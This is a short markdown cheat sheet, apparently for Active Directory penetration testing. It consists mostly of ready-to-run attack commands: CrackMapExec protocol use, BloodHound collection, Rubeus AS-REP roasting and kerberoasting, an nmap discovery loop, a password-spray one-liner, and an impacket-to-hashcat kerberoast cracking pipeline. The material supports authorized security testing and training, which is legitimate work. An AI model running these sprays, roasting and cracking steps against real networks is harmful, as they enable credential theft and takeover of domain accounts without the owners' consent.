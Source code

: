 ### CrackMapExec
```bash
# Installation
pip3 install crackmapexec

# Main protocols
crackmapexec smb
crackmapexec winrm  
crackmapexec ldap
crackmapexec mssql
```

### Bloodhound
```bash
# Data collection
bloodhound-python -u <user> -p <pass> -d <domain> -dc <dc-ip> -ns <dc-ip> -c all

# Analysis
# Import data into Bloodhound GUI
# Look for paths to "Domain Admins"
# Check for "Shortest Paths to High Value Targets"
```

### Rubeus (Windows)
```bash
# .NET tool for Kerberos attacks
.\Rubeus.exe asreproast /format:hashcat
.\Rubeus.exe kerberoast /format:hashcat  
.\Rubeus.exe tgtdeleg
.\Rubeus.exe createnetonly /program:cmd.exe
```

## Quick Reference Commands

### One-Liner Domain Enumeration
```bash
# Quick domain discovery
for port in 88 389 636 3268; do nmap -p $port --open <target-range>; done
```

### Password Spray One-Liner  
```bash
# Test single password against user list
for user in $(cat users.txt); do echo "Testing $user"; crackmapexec smb <target> -u "$user" -p "Password123!" | grep -v "[-]"; done
```

### Hash Cracking Pipeline
```bash
# Kerberoast pipeline
impacket-GetUserSPNs <domain>/<user>:<pass> -request -format hashcat -outputfile hashes.txt && hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt --force
```
